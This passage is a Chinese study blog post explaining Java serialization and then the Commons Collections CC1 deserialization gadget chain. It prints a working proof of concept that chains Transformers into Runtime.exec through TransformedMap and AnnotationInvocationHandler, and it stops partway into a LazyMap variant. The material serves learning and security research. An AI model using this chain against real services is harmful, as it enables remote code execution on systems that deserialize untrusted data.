# Java 的序列化和反序列化

1. 本科悠悠晃晃结束了，大四为了 hw 才学了点 CC 链，结果一年多的考研和事情将序列化忘得几乎不剩啥了。天璇新生赛的 Java 题直接给我干碎。咬咬牙将它重新捡起来，重新走完这段苦痛之路，直面天命！
2. 回头来看时，发现自己写的部分内容还是难以理解。su18 师傅在文章中说的也对，如果为了构造链条，例如 CTF 比赛中，那一步一步调试出来也没啥问题。但是想要挖 0day 这些，光知道谁调用谁确实完全不够的，这需要站在更高的角度看问题。不过该调试的，该自己走一步的还是要走。
3. 之前写的时候对相关函数没有描述，对应的知识点也没有啥术语描述，写的也比较冗余，既然以 su18 师傅的文章为学习参考，那么就按照他的术语吧。
4. 24 年国庆才把这 CC 学完，断断续续快一周了吧，也算是入门了。

## 1. Java 序列化的基本原理

### 1.1. `ObjectOutputStream` 类：

1. 继承 `OutputStream`，该类将对象转成字节数据并输出到文件中保存，可以实现对象的持久存储。

2. 创建方法 `ObjectOutputStream(OutputStream outputStream)`

3. 成员方法：

    `writeObject(Object obj)` 将指定的对象写入到对象流中，由于是 `Object` 类，因此 `String` 类或者数组也都可以写入。读出时的顺序和类型和写入时的顺序一致。

4. 使用步骤：

    1. 创建 `ObjectOutputStream` 对象，构造方法中传递字节输出流 `OutputStream`。
    2. 使用 `ObjectOutputStream` 对象中的方法 `writeObject(Object obj)`，将对象写入输出流中（输出流再写入文件中）。

    3. 释放资源（关流）。

### 1.2. 序列化和反序列化的其他条件

1. 参与序列化和反序列化的类要继承 `Serializable` 接口，JVM 会为该类自动生成一个序列化版本号。
2. `serialVersionUID`，该属性就是上一点提到的序列化版本号，该序列化版本号的作用就是用于区别类（例如同名类），版本号可以自己指定。
3. `transient`，关键字，用来指定不想参与序列化的属性。
4. `ObjectInputStream`，也就是反序列化时用的类，对标 `ObjectOutputStream`，同样存在方法 `readObject()`。
5. 被 `static` 修饰的成员变量无法被序列化，因为其属于类而不属于对象，序列化实际上是序列具体对象。

### 1.3. 例子：

1. 创建一个类，其用于被序列化：

    ```java
    import java.io.Serializable;
    
    /**
     * Created with IntelliJ IDEA.
     *
     * @author: EndlessShw
     * @user: hasee
     * @date: 2022/6/16 15:33
     * @project_name: Serialization_Unserialization
     * @description:
     * @modifiedBy:
     * @version: 1.0
     */
    
    // 参与序列化的类，其必须要继承 Serializable 接口
    public class Student implements Serializable {
        private String name;
        private int age;
    
        public Student(String name, int age) {
            this.name = name;
            this.age = age;
        }
    
        public String getName() {
            return name;
        }
    
        public void setName(String name) {
            this.name = name;
        }
    
        public int getAge() {
            return age;
        }
    
        public void setAge(int age) {
            this.age = age;
        }
    
        @Override
        public String toString() {
            return "Student{" +
                    "name='" + name + '\'' +
                    ", age=" + age +
                    '}';
        }
    }
    ```

2. 序列化的简单流程：

    ```java
    import java.io.FileNotFoundException;
    import java.io.FileOutputStream;
    import java.io.IOException;
    import java.io.ObjectOutputStream;
    
    /**
     * Created with IntelliJ IDEA.
     *
     * @author: EndlessShw
     * @user: hasee
     * @date: 2022/6/16 15:35
     * @project_name: Serialization_Unserialization
     * @description:
     * @modifiedBy:
     * @version: 1.0
     */
    
    // 用于序列化的类
    public class Serialization {
        public static void main(String[] args) throws IOException {
            // 创建具体对象
            Student student = new Student("学生1", 22);
            // 创建对象输出流
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("student.txt"));
            // 调用方法将对象序列化并写入文件中
            outputStream.writeObject(student);
            // 流的处理
            if (outputStream != null) {
                // 刷新
                outputStream.flush();
                // 流关闭
                outputStream.close();
            }
        }
    }
    ```

3. 反序列化的简单流程：

    ```java
    import java.io.*;
    
    /**
     * Created with IntelliJ IDEA.
     *
     * @author: EndlessShw
     * @user: hasee
     * @date: 2022/6/16 15:42
     * @project_name: Serialization_Unserialization
     * @description:
     * @modifiedBy:
     * @version: 1.0
     */
    
    // 执行反序列化漏洞
    public class UnSerialization {
        public static void main(String[] args) throws IOException, ClassNotFoundException {
            // 直接创建对象输入流，将序列化后的二进制文件导入
            ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("student.txt"));
            // 调用方法进行反序列化
            Object unserializedObj = objectInputStream.readObject();
            // 查看对象的信息
            System.out.println(unserializedObj);
            // 关闭流
            if (objectInputStream != null) {
                objectInputStream.close();
            }
        }
    }
    ```

    结果如下：

    

### 1.4. 序列化版本号 `serialVersionUID`

1. JVM 通过 `serialVersionUID` 来区别 Java 类。

2. 在序列化之前，如果没有指定序列化版本号，JVM 会自动给该类生成一个。

3. 但是如果在序列化后（例如叫序 A），对被序列化的类（修改前叫类 A，修改后叫类 B ）进行了一个修改并重新编译，此时会导致新生成的序列化的类（序 B）的序列化版本号不一致（JVM 自动赋值）。

4. 此时如果用修改过后的类（类 B）来反序列化之前序列化后的类（序 A）（即强转），就会抛出异常 `java.io.InvalidClassException`，因此序列化类时最好指定一个序列化的版本，或者不修改类。

5. 例如：

    ```java
    private static final Long serialVersionUID = 1L;
    ```

    或者用 alt + insert 自动让 IDEA 生成 `serialVersionUID`。

### 1.5. 序列化的一些注意事项

1. 序列化只会保存对象的属性和状态，其不会保存对象中的方法（从上面的例子可以看出，其没有保存 `setter 和 getter 以及构造方法`。
2. 父类继承序列化接口时，子类也会自动继承。
3. 当继承序列化接口的对象 A 引用其他对象 B 时，在序列化 A 时，B 也会被序列化，前提是 B 也要继承序列化接口。
4. 尽量对多次使用的类和属性不进行大改变的类进行序列化，例如数据库操作的实体类。

### 1.6 重写 `readObject()` 自定义反序列化的行为

1. 在反序列化的时候，会调用 `ObjectInputStream.readObject()` 方法。一般是调用默认的反序列化方法，但是如果被序列化的对象重写了方法：

    ```java
    private void readObject(ObjectInputStream in) throws Exception {}
    ```

    那么会执行该方法而不是默认的反序列化方法。

### 1.7 序列化漏洞成因

1. 综上，如果程序反序列化的字节流，是被序列化恶意类的字节流（重写了 `readObject()`。那么就可能产生序列化漏洞。

### 1.8 参考

1. > https://blog.csdn.net/qq_44713454/article/details/108418218
    >
    > https://blog.csdn.net/qq_37019068/article/details/120717474

## 2. 为什么要使用链？

### 2.1 设想场景

1. 假设现在后端存在一个接口，用来接收序列化后的数据，然后直接反序列化。目前能想到的攻击手段就是“随便构建一个类，实现 `serializable` 接口，在 `readObject()` 中编写命令执行方法”。

### 2.2 局限性/序列化的条件

1. 序列化的一个条件：同包且同名。
    因此如果自己构建的一个类，序列化后给后端反序列化，那么在黑盒的情况下，后端必定会报错，因为序列化后的类不相同（你也不懂后端的包名和类名）。
2. `readObject()` 方法丢失：
    假设第一点满足了，即你传入的自定义的类和后端有的类同包又同名，但是如果后端同包同名的类并没有重写 `readObject()` 方法，那么在序列化过程中，**自己重写的 `readObject()` 方法会丢失**，因此里面的恶意代码不会被执行。

### 2.3 结论

1. 因此，构造 PoC 的方向就是要解决上述的两个问题。
2. 对于第一个问题，如果传入的被序列化的类，是 JDK 原生的，或者是后端所使用的库内部的，那么就可以解决“同包同名”的问题。
3. 对于第二个问题，不论后端自定义的类“是否重写了 `readObject()` 方法”，但是其反序列化时，**必定会调用 JDK 或者依赖里面的类被序列化时**重写的 `readObject()` 方法。

## 3. 漏洞详解 - Java Common Collections 下的序列化漏洞（最基本 CC1 链）

1. Common Collections 包是对 Java 原生中的 java.util.Collections 的一个拓展。
2. 组件版本：
    1. `TransformedMap` 要求 JDK < 8u71
    2. commons-collections4，其他人复现版本都是 <3.1


### 3.1.  `TransformedMap` 底层原理

1. `TransformedMap` 类具有“修饰” `Map` 的作用，会将 `Map` 中加入的对象进行 **`transform`（变换）**操作。

2. 底层源码如下：

    >```java
    >/**
    > * Factory method to create a transforming map.
    > * <p>
    > * If there are any elements already in the map being decorated, they
    > * are NOT transformed.
    > * Contrast this with {@link #transformedMap(Map, Transformer, Transformer)}.
    > *
    > * @param <K>  the key type
    > * @param <V>  the value type
    > * @param map  the map to decorate, must not be null
    > * @param keyTransformer  the transformer to use for key conversion, null means no transformation
    > * @param valueTransformer  the transformer to use for value conversion, null means no transformation
    > * @return a new transformed map
    > * @throws IllegalArgumentException if map is null
    > * @since 4.0
    > */
    >public static <K, V> TransformedMap<K, V> transformingMap(final Map<K, V> map,
    >        final Transformer<? super K, ? extends K> keyTransformer,
    >        final Transformer<? super V, ? extends V> valueTransformer) {
    >    return new TransformedMap<K, V>(map, keyTransformer, valueTransformer);
    >}
    >
    >/**
    > * Factory method to create a transforming map that will transform
    > * existing contents of the specified map.
    > * <p>
    > * If there are any elements already in the map being decorated, they
    > * will be transformed by this method.
    > * Contrast this with {@link #transformingMap(Map, Transformer, Transformer)}.
    > *
    > * @param <K>  the key type
    > * @param <V>  the value type
    > * @param map  the map to decorate, must not be null
    > * @param keyTransformer  the transformer to use for key conversion, null means no transformation
    > * @param valueTransformer  the transformer to use for value conversion, null means no transformation
    > * @return a new transformed map
    > * @throws IllegalArgumentException if map is null
    > * @since 4.0
    > */
    >public static <K, V> TransformedMap<K, V> transformedMap(final Map<K, V> map,
    >        final Transformer<? super K, ? extends K> keyTransformer,
    >        final Transformer<? super V, ? extends V> valueTransformer) {
    >    final TransformedMap<K, V> decorated = new TransformedMap<K, V>(map, keyTransformer, valueTransformer);
    >    if (map.size() > 0) {
    >        final Map<K, V> transformed = decorated.transformMap(map);
    >        decorated.clear();
    >        decorated.decorated().putAll(transformed);  // avoids double transformation
    >    }
    >    return decorated;
    >}
    >```

3. 这两个方法都是创建 `TransformedMap` 的两个静态方法。都需要三个参数，一个 `Map` 对象、两个 `Transformer` 对象。那么 `Transformer` 又是什么？

### 3.2 `Transformer` 接口的原理

1. 官方对于 `Transformer` 的定义如下：

    > Defines a functor interface implemented by classes that transform one object into another.

    关键点两个：

    1. 他是一个**接口**。
    2. 他有一个方法 `transform`，该方法的本质是**“将一个类转换成另一个类”**。

2. `Transformer` 的底层原理如下

    > ```java
    > /**
    >  * Defines a functor interface implemented by classes that transform one
    >  * object into another.
    >  * <p>
    >  * A <code>Transformer</code> converts the input object to the output object.
    >  * The input object should be left unchanged.
    >  * Transformers are typically used for type conversions, or extracting data
    >  * from an object.
    >  * <p>
    >  * Standard implementations of common transformers are provided by
    >  * {@link TransformerUtils}. These include method invocation, returning a constant,
    >  * cloning and returning the string value.
    >  *
    >  * @param <I> the input type to the transformer
    >  * @param <O> the output type from the transformer
    >  *
    >  * @since 1.0
    >  * @version $Id: Transformer.java 1543278 2013-11-19 00:54:07Z ggregory $
    >  */
    > public interface Transformer<I, O> {
    > 
    >     /**
    >      * Transforms the input object (leaving it unchanged) into some output object.
    >      *
    >      * @param input  the object to be transformed, should be left unchanged
    >      * @return a transformed object
    >      * @throws ClassCastException (runtime) if the input is the wrong class
    >      * @throws IllegalArgumentException (runtime) if the input is invalid
    >      * @throws FunctorException (runtime) if the transform cannot be completed
    >      */
    >     O transform(I input);
    > 
    > }
    > ```

3. 根据源码的注释可以看出，`Transformer` 接口的作用在于将一个对象转换成另一个对象。如果继承了该接口，那么还需要实现 `transform()` 方法。

4. 根据继承关系，接下来讲：`ChainedTransformer`、`ConstantTransformer` 和 `InvokerTransformer` 三个**实现类**：
    

### 3.3 `InvokerTransformer` 实现类的原理

1. `InvokerTransformer` 的作用在于通过反射来调用方法，将输入的对象经过方法后输出出来。

1. 底层源码如下：

    > ```java
    > /**
    >  * Transforms the input to result by invoking a method on the input.
    >  *
    >  * @param input  the input object to transform
    >  * @return the transformed result, null if null input
    >  */
    > @SuppressWarnings("unchecked")
    > public O transform(final Object input) {
    >     if (input == null) {
    >         return null;
    >     }
    >     try {
    >         // 这里开始调用反射机制，首先获取传入的对象（被转换的对象）的字节码
    >         final Class<?> cls = input.getClass();
    >         // 获取到类后，再根据方法名和参数类型来获取到指定的方法
    >         final Method method = cls.getMethod(iMethodName, iParamTypes);
    >         // 调用方法，同时将方法产生的结果返回（这里返回的就是转换后对象）
    >         return (O) method.invoke(input, iArgs);
    >     } catch (final NoSuchMethodException ex) {
    >         throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" +
    >                                    input.getClass() + "' does not exist");
    >     } catch (final IllegalAccessException ex) {
    >         throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" +
    >                                    input.getClass() + "' cannot be accessed");
    >     } catch (final InvocationTargetException ex) {
    >         throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" +
    >                                    input.getClass() + "' threw an exception", ex);
    >     }
    > }
    > ```
    >
    > **反射**中调用方法时涉及的方法参数，来自 `InvokerTransformer` 的构造函数或者静态构造方法。
    >
    > 
    >
    > 注意参数类型，构造 PoC 会涉及到。

### 3.4 `ConstantTransformer` 实现类的原理

1. 这个类的作用在于每次 `tramsform()` 都会返回一个常量值。

1. 底层源码如下：

    > ```java
    > /**
    >  * Transformer method that performs validation.
    >  *
    >  * @param <I>  the input type
    >  * @param <O>  the output type
    >  * @param constantToReturn  the constant object to return each time in the factory
    >  * @return the <code>constant</code> factory.
    >  */
    > public static <I, O> Transformer<I, O> constantTransformer(final O constantToReturn) {
    >     // 通过静态方法创建，如果传入的参数为空，就创建空常量的转换类。
    >     if (constantToReturn == null) {
    >         return nullTransformer();
    >     }
    >     return new ConstantTransformer<I, O>(constantToReturn);
    > }
    > 
    > /**
    >  * Constructor that performs no validation.
    >  * Use <code>constantTransformer</code> if you want that.
    >  *
    >  * @param constantToReturn  the constant to return each time
    >  */
    > public ConstantTransformer(final O constantToReturn) {
    >     super();
    >     // 这里通过类成员来或者要转换的常量
    >     iConstant = constantToReturn;
    > }
    > 
    > /**
    >  * Transforms the input by ignoring it and returning the stored constant instead.
    >  *
    >  * @param input  the input object which is ignored
    >  * @return the stored constant
    >  */
    > public O transform(final I input) {
    >     // 在构造函数中指定并获得了要转换成的常量，这里直接 return 了。
    >     return iConstant;
    > }
    > ```

### 3.5 `ChainedTransformer` 类的实现原理

1. 首先来看源码中官方对它的介绍：

    > ```java
    > /**
    >  * Transformer implementation that chains the specified transformers together.
    >  * 该链式转换器共同转换一个对象
    >  * <p>
    >  * The input object is passed to the first transformer. The transformed result
    >  * is passed to the second transformer and so on.
    >  * 按照顺序用链式转换器内的转换器，像链条一样，一个接着一个对待转换对象进行转换
    >  * @since 3.0
    >  * @version $Id: ChainedTransformer.java 1479337 2013-05-05 15:20:59Z tn $
    >  */
    > public class ChainedTransformer<T> implements Transformer<T, T>, Serializable {
    > }
    > ```

    简单来讲，该类维护多个 `Transformer`，其按照像链条一样，一个接着一个调用内部的 `Transformer` 将上一个传入的对象进行转换，然后传给下一个。

2. 再大概看一下其构造函数：

    
    不论是构造函数，还是类内准备暂存构造时传入的参数，其都是数组或者继承自 `Collection` 的复杂数据类型。这表明该 `ChainedTransformer` 链式转换器内有多个转换器。

3. 最后再看其实现的 `transform()`

    > ```java
    > /**
    >  * Transforms the input to result via each decorated transformer
    >  *
    >  * @param object  the input object passed to the first transformer
    >  * @return the transformed result
    >  */
    > public T transform(T object) {
    >     // 按序遍历所有的转换器
    >     for (final Transformer<? super T, ? extends T> iTransformer : iTransformers) {
    >         // 依次调用所有转换器的 transform() 转换方法。
    >         object = iTransformer.transform(object);
    >     }
    >     return object;
    > }
    > ```

### 3.6 前提总结

1. `TransformedMap` 是一个特殊的 `Map`，其接受一个 `Map` 对象；对于给定的 `Map`，它需要两个 `Transformer` 从而能够赋予 `Map` 的键值**额外事件**以实现对象转换。
2. `Transformer` 是一个接口，他的 `transform()` 方法就是上述所说的，实现对象转换的方法。
3. 然后就是三个对于 `Transformer` 的实现类：
    1. `InvokerTransformer` 的作用在于**通过反射**来调用方法，将输入的对象经过方法后输出出来。
    2. `ConstantTransformer` 类的作用在于每次 `tramsform()` 都会返回一个**常量值**。
    3. `ChainedTransformer` 维护多个 `Transformer`，其按照像链条一样，一个接着一个调用内部的 `Transformer` 将上一个传入的对象进行转换，然后传给下一个。

### 3.7 漏洞原理

1. 根据 2.3 的结论，接下来就是要解决两个问题：
    1. 谁负责调用恶意代码；也就是 sink（触发点） + chain（调用链主体），其中：
        1. sink 和恶意代码关系最密切。
        2. chain 主要一步一步能触发 sink。
    2. 哪个对象能够在被反序列化过程中，通过调用自身的 `readObject()` 方法来告知“负责调用恶意代码的对象”调用恶意代码。（因为负责调用恶意代码的对象还需要其他人来触发，其自身无法主动调用恶意代码）；也就是 kick-off（入口）

#### 3.7.1 sink

1. 根据 Java 的 RCE，最基本的肯定是想要执行：`Runtime.getRuntime().exec()`。但是 `Runtime` 类不可被序列化，因此反序列化调用 `readObject()` 时就拿不到 `Runtime` 对象，从而无法执行恶意代码。

2. 思路：

    1. 既然无法直接拿到，那么就通过**反射**获取到字节码文件。
    2. 再通过字节码文件和反射依次执行 `getRuntime()` 的 `exec()` 方法。

3. 首先对于第一步，就用 `ConstantTransformer` 来实现：

    ```java
    // 注意这里创建的是类的字节码，最终相当于用 `InvokerTransformer` 的反射来调用反射，从而调用 exec()
    new ConstantTransformer(Runtime.class);
    ```

4. 第二步，要通过反射调用方法的话，就需要在创建 `InvokerTransformer(final String methodName, final Class<?>[] paramTypes, final Object[] args)` 时，指定方法名，方法参数的类型和具体参数内容。

    ```java
    // getMethod 一定要
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    // 通过反射创建了反射的方法，因此还得通过反射的 invoke() 来执行
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    ```

5. 最终，将这些转换器用 `ChainedTransformer` 进行整合，得到**最终**的恶意 `Transformer` 链如下：

    ```java
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    ```

6. 到此，成功构造了一个 `Transformer` 类，他的 `transform` 可以执行命令，也就是 sink。但是这个 sink 要怎么触发呢？因为他是 `Transformer`，那么就要回到 `TransformedMap` 了。

#### 3.7.2 chain

1. 回到 `TransformedMap` ，在 3.1 中提到，该对象的创建要求传入 key 和 value 的 `Transformer` 转换器，如果创建时我们传入包含恶意代码的 `InvokerTransformer`，此时如果 `TransformedMap` 对象**调用了某些方法，使得其键或值的 `Transformer` 的 `transform()` 方法被执行**，那么就会触发 sink ，从而执行恶意代码。

2. 那么问题又来了，**“哪些方法会让 `TransformedMap` 调用其键或值的 `Transformer` 的 `transform()` 方法？”**。
    再次回到 `TransformedMap` 的底层源码，找到调用 key/value 的转换器的方法。
    首先是最底层的三个方法：

    ```java
    /**
     * Override to transform the value when using <code>setValue</code>.
     *
     * @param value  the value to transform
     * @return the transformed value
     * @since 3.1
     */
    @Override
    protected V checkSetValue(final V value) {
        return valueTransformer.transform(value);
    }
    /**
     * Transforms a key.
     * <p>
     * The transformer itself may throw an exception if necessary.
     *
     * @param object  the object to transform
     * @return the transformed object
     */
    protected K transformKey(final K object) {
        if (keyTransformer == null) {
            return object;
        }
        return keyTransformer.transform(object);
    }
    /**
     * Transforms a value.
     * <p>
     * The transformer itself may throw an exception if necessary.
     *
     * @param object  the object to transform
     * @return the transformed object
     */
    protected V transformValue(final V object) {
        if (valueTransformer == null) {
            return object;
        }
        return valueTransformer.transform(object);
    }
    ```

    这三个方法会调用 `transform()` 方法，但是这三个方法都是 `protected` 类型，这表示 `TransformedMap` 对象**不能直接调用**这三个方法，因此再向上找调用这三个方法的方法。

3. 先从 `checkSetValue()` 方法入手，首先注意到它有 `@Override` 注解，说明其重写了其父类中的方法，那么从它继承或实现的父类/接口入手，找到调用 `checkSetValue()` 方法：

    ```java
    /**
     * Implementation of a map entry that checks additions via setValue.
     */
    private class MapEntry extends AbstractMapEntryDecorator<K, V> {
        
        /** The parent map */
        private final AbstractInputCheckedMapDecorator<K, V> parent;
        protected MapEntry(final Map.Entry<K, V> entry, final AbstractInputCheckedMapDecorator<K, V> parent) {
            super(entry);
            this.parent = parent;
        }
        
        @Override
        public V setValue(V value) {
            // 这里是 parent，也就是 AbstractMapEntryDecorator 调用了 checkSetValue 方法。
            value = parent.checkSetValue(value);
            return getMapEntry().setValue(value);
        }
    }
    ```

    可以看到，`AbstractInputCheckedMapDecorator`（即`TransformedMap` 的父类） 内部的一个 `MapEntry` 调用了 `setValue()` 后才会调用  `AbstractInputCheckedMapDecorator` 的 `checkSetValue()` 方法，但是 **`MapEntry` 又是私有类，因此要想办法获取到它**。

4. 再在 `AbstractInputCheckedMapDecorator` 中搜寻，发现：

    ```java
    /**
     * Implementation of an entry set iterator that checks additions via setValue.
     */
    // 这表明名为 EntrySetIterator 的 next 方法会得到 MapEntry
    private class EntrySetIterator extends AbstractIteratorDecorator<Map.Entry<K, V>> {
        /** The parent map */
        private final AbstractInputCheckedMapDecorator<K, V> parent;
        protected EntrySetIterator(final Iterator<Map.Entry<K, V>> iterator,
                                   final AbstractInputCheckedMapDecorator<K, V> parent) {
            super(iterator);
            this.parent = parent;
        }
        // 这里获取
        @Override
        public Map.Entry<K, V> next() {
            final Map.Entry<K, V> entry = getIterator().next();
            return new MapEntry(entry, parent);
        }
    }
    ```

    这表明名为 `EntrySetIterator` 的 next 方法会得到 `MapEntry`，但是 `EntrySetIterator` 还是私有的，再向上找能够**获取 `EntrySetIterator` 的方法**。

5. 最终找到方法：
    

    获得 `EntrySetIterator` 需要 `EntrySet` ，而获得 `EntrySet` 需要 `AbstractInputCheckedMapDecorator` 的 `entrySet()` 方法，而 `TransformedMap` 实现了 `AbstractInputCheckedMapDecorator`，显然可以调用该方法。至此“如何执行命令”的问题解决。

6. 总结一下：
    **`TransformedMap.entryset().iterator().next()` 获取到 `MapEntry` ，然后 kick-off 部分调用其方法 `setValue("")` 即可。**

7. **执行命令的代码 - chain：**

    ```java
    HashMap<String, String> hashMap = new HashMap<>();
    hashMap.put("1", "随便");
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, 含有恶意代码的 InvokerTransformer);
    // 需要交给 kick-off 执行的部分
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.3 sink + chain

1. 最终，将 sink 和 chain 合并，得到以下内容：

    ```java
    // sink
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})     
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // chain
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    hashMap.put("1", "随便");
    // 实际过程中无法直接调用到该方法，需要通过 readObject 来调用它
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.4 kick-off

1. 首先，有三个要点：

    1. 类能被反序列化

    2. 被反序列化时，其内部的 `readObject()` 会调用类似：

        ```java
        transformedMap.entrySet().iterator().next().setValue("123");
        ```

        的代码。

    3. 这个类尽量是依赖里面的或者是 JDK 原生的。

2. 寻找思路：
    既然触发点是 `setValue()` 函数，那么就先从最简单的找起：`readObject()` 中直接调用 `setValue()` 方法的类。右键 `setValue()` ，点击 `Find Usage` 。

3. 最终寻找到一个类是 `AnnotationInvocationHandler`（需要注意的是，JDK 的版本是 1.8 的低版本，在 1.8 最新的版本中，该类的 `readObject()` 中没有调用 `setValue()` 函数，从而失效）。
    

4. 分析一下，这个类的 `memberValue` 是可传入的而且是 `Map` 中的 `Map.Entry`，因此方向就是实例化这个类然后传入构造好的 `transformedMap`。

5. 由于这个类它没有被 `public` 关键字修饰，因此它不可以直接通过 `new` 实例化，因此要采用**反射机制**去创建它。

6. 创建过程大概如下：

    ```java
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里为什么 key 是 "value"，下文有解释
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，使用了 SpringMVC 的注解 GetMapping，下文会讲
    Object newInstance = aIHClassDeclaredConstructor.newInstance(GetMapping.class, transformedMap);
    // 对这个对象进行序列化
    // serialize(newInstance);
    ```

7. 这里有一个关键点：“触发 `setValue()` 前的 `if (memberType != null)` 这个条件。”

8. 追溯源码，大概可以知道：
    
    `memberType` 由 `memberTypes.get(name)` 获取到，这个参数 `name` 是 `memberValue.getKey()` 获取到的，方法主体 `memberValue` 上文中提到是传入的 `transformedMap` 中的**一对键值对**，**那么这里的 `name` 就是传入的 `Map` 的每一个键**。合并一下，就是 `memberType` 由 `memberTypes.get(transformedMap 的键)` 获得。知道了参数 `name` 是什么，但是这个 `memberTypes` 是什么？向上追溯到 `readObject()` 的开头，但还是没有头绪。这里就先打个断点，然后 debug 去看这个 `memberTypes` 是什么。
    
    可以看出，上文调用构造方法的时候传入了 SpringMVC 的注解 `GetMapping.class`，**这里显示的是该注解中的变量名。**

9. 至此得出结论：`transformedMap` 中的键要有，和 `AnnotationInvocationHandler` 构造函数的第一个参数（也就是注解类）中的成员名。

#### 3.6.5 PoC 编写

1. PoC 最终的构造如下：

    ```java
    // 构造转换器链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里的 key 要注意，和下文注解类中的成员名称一致
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，注解类中要有成员
    Object newInstance = aIHClassDeclaredConstructor.newInstance(Target.class, transformedMap);
    String serialize = serialize(newInstance);
    unSerialize(serialize);
    ```

2. 如果序列化流是通过 Base64 传输的，而不是文件：

    ```java
    // 序列化
    public String serialize(Object payload) {
        // 创建恶意类
        // 创建文件对象
        ObjectOutputStream out = null;
        try {
            // 将恶意类序列化（这里不用文件流，改用字节流并用 base64 加密
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            out = new ObjectOutputStream(byteArrayOutputStream);
            out.writeObject(payload);
            // 这里一定要用 toByteArray 将每个字节转成 string 后再编码。如果先 byteArrayOutputStream.toString() 全部转成 string 再 base64 编码，就会出现问题。
            return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (out != null) {
                    out.flush();
                    out.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    public void unSerialize(String serialize) {
        // 模拟反序列化靶场
        ObjectInputStream objectInputStream = null;
        try {
            objectInputStream = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(serialize)));
            // 靶场调用了 readObject()
            objectInputStream.readObject();
        } catch (IOException | ClassNotFoundException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (objectInputStream != null) {
                    objectInputStream.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    ```

    这样就不用文件了。实际情况下这种用的应该比较多。

### 3.7 链的过程图

1. 如下：
    

## 4. yoserial 的 CC1 链（8u71 失效，65 可以）

### 4.1 链载体的更换 - 新的 chain

1. 上述链的 chain 是 `TransformedMap`，同样的，`LazyMap` 也会调用 `tramsform()` 方法。
2. 寻找 `transform()` 的 usage，在 `LazyMap` 中找到：
    
    分析逻辑：如果 `LazyMap` 中存在 key，就直接返回，否则进入 `if` 中，调用 `transform()`。
    因此，创建 `LazyMap` 的时候不指定 `key` ，然后由于 `get()` 获取不到 key，从而调用 `transform()`。

### 4.2 新的 kick-off

1. 上文说到，JDK 1.8 高版本中，`AnnotationInvocationHandler` 的 `readObject()` 已经不会调用 `setValue()` 方法。但是调用 `LazyMap` 的 `get()` 方法确实太多了，不好找，那就先再从 `AnnotationInvocationHandler` 找起，看看它能否为 `LazyMap` 所用。

2. `AnnotationInvocationHandler` 中，其 `invoke()` 方法内部调用了传入的 `Map` 的 `get()` ，那么就从这里入手：
    

    ```java
